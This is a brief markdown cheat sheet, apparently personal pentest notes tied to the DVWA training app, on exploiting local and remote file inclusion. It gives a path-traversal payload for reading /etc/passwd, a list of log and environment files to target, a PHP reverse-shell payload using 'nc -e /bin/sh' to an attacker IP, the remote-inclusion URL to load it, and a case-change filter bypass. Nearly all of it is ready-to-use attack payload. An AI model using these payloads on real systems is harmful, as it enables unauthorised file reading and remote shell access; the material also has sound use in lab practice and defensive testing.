 # File Inclusion

## Local
- Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```

- Intersting files
  - /proc/self/environ
  - /var/log/auth.log
  - /var/log/apache2/access.log  

- Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  

## Remote
- Exploit
  - Save the code as *"reverse.txt"*, if extnsion be *"php"*, it will run on kali machine. ? is for run the code in victim machine
```php
<?php
passthru('nc -e /bin/sh 10.20.14.203 8080');
?>
``` 
  - Modify ```?page=include.php``` to ```?page=http://10.20.14.203/reverse.txt?```
- Bypass
  - ```?page=hTTp://10.20.14.203/reverse.txt?```
